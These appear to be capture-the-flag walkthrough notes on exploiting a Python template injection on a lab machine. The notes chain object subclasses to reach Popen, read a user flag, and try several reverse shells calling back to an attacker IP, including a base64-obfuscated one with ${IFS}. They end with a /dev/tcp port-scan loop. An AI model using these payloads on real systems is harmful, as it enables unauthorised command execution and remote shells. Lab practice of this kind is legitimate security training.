 ```

Trying-> [].__class__.mro()[-1]
Output-> <class 'object'>

Trying -> [].__class__.mro()[1].__subclasses__()
Output -> reeeeally long list -> after formatting, and searching for Popen the index is 217

[].__class__.mro()[1].__subclasses__()[217]('ls',shell=True,stdout=-1).communicate()[0].strip()

[].__class__.mro()[1].__subclasses__()[217]('cat /home/augustus/user.txt',shell=True,stdout=-1).communicate()[0].strip()

user.txt --> 72f6...

Next payload 
bash -i >& /dev/tcp/10.10.14.3/31415 0>&1

[].__class__.mro()[1].__subclasses__()[217]('
/bin/bash -l > /dev/tcp/10.10.14.3/31415 0>&1 2>&1',shell=True,stdout=-1).communicate()[0].strip()

```

After trying several reverse shells without success, we can find any other open port:
```
{{[].__class__.mro()[1].__subclasses__()[217]('netstat -tulpn | grep LISTEN',shell=True,stdout=-1).communicate()[0].strip()}}

tcp 0 0 0.0.0.0:8085 0.0.0.0:* LISTEN 1/python3 
tcp 0 0 127.0.0.11:44383 0.0.0.0:* LISTEN -
```

So lets forward to us:
```
ssh -R 7000:localhost:44383 lotape6@10.10.14.3

```

Looks like there is no SSH
Looks like we are inside docker and looks like we had to obfuscate the shell into base64 in order to get a reverse shell

https://pentestbook.six2dez.com/exploitation/reverse-shells

```
{{[].__class__.mro()[1].__subclasses__()[217]('echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNi8zMTQxNSAwPiYxCg==|base64${IFS}-d|bash',shell=True,stdout=-1).communicate()[0].strip()}}
```

It's now time to sanitize the reverse shell #sanitize #reverse-shell 

Once inside, as we know we are inside Docker, we can try to communicate with the outside. Then we check our current network:
```
ifconfig



for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done

```
